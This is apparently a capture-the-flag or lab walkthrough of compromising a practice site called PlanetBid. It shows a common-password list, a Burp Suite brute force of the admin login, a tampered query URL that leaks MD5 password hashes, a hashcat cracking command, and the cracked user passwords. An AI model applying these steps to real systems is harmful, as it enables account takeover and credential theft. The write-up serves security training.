 ```
password
qwerty
pass
(name)
12345
abc123
123
letmein
asdfg
monkey
```

- Let us start with PlanetBid login website
- We open Burpsuite, activate our proxy and catch a POST request (I removed the cookie values):

![grafik](https://user-images.githubusercontent.com/84674087/135508306-9d611c8a-bbfa-47c8-8030-d85231db7f7d.png)

- We start with the username **admin** and grab the passwords listed above (I added some more for safety sake):

![grafik](https://user-images.githubusercontent.com/84674087/135508144-f842ab57-f29f-4c2f-83dc-3288f412439a.png)

- We succeed with password **letmein** !
- Now we have access to member DB and bids DB

![grafik](https://user-images.githubusercontent.com/84674087/135508509-c41327c2-1479-4362-ad70-95f28f9933e8.png)

- We obtain valuable information from member DB:

\# | User | Email
--| ---- | -----
11 | nemisis (!Attention! Not "nemesis" !) | jfelliot@mail.com
14 | John | run@dmail.com
23 | Zinc | Loltown@Googtube.com
29 | Gizmo | Decalz@mappers.com
31 | Revoked.Mayhem | Caffe@hotbiz.com
36 | admin | hellomum@yawn.go

- At bids DB we can discover the **"Opponent"** who made the deal with Revoked.Mayhem: It is **nemisis** !
- So, Revoked.Mayhem goes crazy because of £1.32 ?! 😄

![grafik](https://user-images.githubusercontent.com/84674087/135510187-f533c82c-fff2-42fb-9995-5d6af8579503.png)

- But how can we retrieve the password of any user, especially nemesis ?
- We look at the URL of member dbs/SQL query: `/planetbid/view.php?members&1=user&2=email`
- Let's modify it a bit ... `/planetbid/view.php?members&1=user&2=password` ... we get an empty column 😒
- How about: `/planetbid/view.php?members&1=user&2=pass` ... Success ! Hashes ! MD5 Hashes !
    - Check out here: [hash_identifier](https://hashes.com/en/tools/hash_identifier) 
- `hashcat -m 0 -a 0 hash.txt /usr/share/john/password.lst` (hash.txt contains the hashes)
   -  nemisis -> **password: chicken**
   -  Revoked.Mayhem -> **password: westwoodworld**
   -  John -> **password: gymsoft**
   -  Gizmo -> **password: evisumake**
